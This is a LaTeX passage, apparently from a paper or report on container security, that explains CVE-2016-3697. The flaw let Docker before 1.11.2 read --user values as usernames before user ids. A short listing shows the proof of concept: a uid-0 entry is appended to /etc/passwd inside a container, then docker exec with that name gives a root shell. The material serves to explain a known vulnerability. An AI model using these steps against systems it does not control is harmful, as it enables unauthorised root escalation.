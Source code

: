 \subsection{CVE--2016--3697}

Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it --user 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}
